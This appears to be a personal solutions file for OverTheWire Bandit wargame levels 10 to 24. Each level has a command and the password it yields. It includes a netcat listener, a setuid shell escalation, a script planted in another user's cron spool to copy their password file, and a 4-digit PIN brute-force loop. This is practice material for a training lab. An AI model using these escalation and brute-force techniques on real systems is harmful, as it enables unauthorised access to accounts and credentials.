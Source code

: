 ```bash
# bandit10: cat data.txt | base64 -d
# bandit10: dtR173fZKb0RRsDFSGsg2RWnpNVj3qRr

# bandit11: cat data.txt | tr '[G-ZA-Fg-za-f]' '[T-ZA-St-za-s]'
# bandit11: 7x16WNeHIi5YkIhWsfFIqoognUTyj9Q4
   
# bandit12: Uso del script decompressor.sh
# bandit12: FO5dwFsc0cbaIiH0h8J2eUks2vdTDwAn

# bandit13: ssh -i sshkey.private bandit14@localhost -p 2220
# bandit13: MU4VWeTyJk8ROof1qqmcBPaLh7lDCPvS

# bandit14: nc localhost 30000
# bandit14: 8xCjnmgoKbGLhHFAZlGE5Tmu4M2tKJQo

# bandit15: ncat --ssl 127.0.0.1 30001
# bandit15: kSkvUpMQ7lBYyCM4GBPvCvT1BfWRy0Dx

# bandit16: portScan.sh -> ncat --ssl localhost 31790 -> ssh -i id_rsa bandit17@localhost
# bandit16: EReVavePLFHtFlFsjn3hyzMlvSuSAcRD

# bandit17: diff passwords.new passwords.old
# bandit17: x2gLTTjFwMOhQ8oWNbMN362QKxfRqGlO

# bandit18: sshpass -p 'x2gLTTjFwMOhQ8oWNbMN362QKxfRqGlO' ssh bandit18@bandit.labs.overthewire.org -p 2220 bash
# bandit18: cGWpMaKXVwDUNgPAVJbWYuGHVn9zl3j8

# bandit19: ./bandit20-do bash -p
# bandit19: 0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO

# bandit20: nc -nlvp 4646 --> ./suconnect 4646 --> 0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO
# bandit20: EeoULMCra2q0dSkYj561DX7s1CpBuOBt

# bandit21: cat /etc/cron.d/cronjob_bandit22 | awk '{print $3}' | head -n 1 | xargs cat | tail -n 1 | awk 'NF{print $NF}' | | xargs cat
# bandit21: tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q

# bandit22: cat /etc/cron.d/cronjob_bandit23 | awk '{print $3}' | head -n 1 | xargs cat
# bandit22: 0Zf11ioIjMVN551jX3CmStKLYqjk54Ga

# bandit23: Paso a Paso
	mktemp -d             # Paso 1: Crear un directorio temporal
	touch script.sh       # Paso 2: Crear un archivo dentro del directorio temporal
	chmod +x script.sh    # Paso 3: Añadir permisos de ejecución al archivo
	nano script.sh        # Paso 4: Editar el archivo

	**#!/bin/bash

	cat /etc/bandit_pass/bandit24 > /tmp/tmp.lzkHx9wWPH/bandit24_password.log
	chmod o+r /tmp/tmp.lzkHx9wWPH/bandit24_password.log**

	chmod o+wx /tmp/tmp.lzkHx9wWPH # Paso 5: Añadir permisos para otros en el directorio
	cp script.sh /var/spool/bandit24/foo/script # Paso 6: Copiar el archivo en la ruta /var/spool/bandit24/foo
# bandit23: gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

# bandit24: 
for pin in {0000..9999}; do echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $pin; done > combinations.txt
cat combinations.txt | nc localhost 30002 | grep -vE 'Wrong|pincode'
# bandit24: iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

```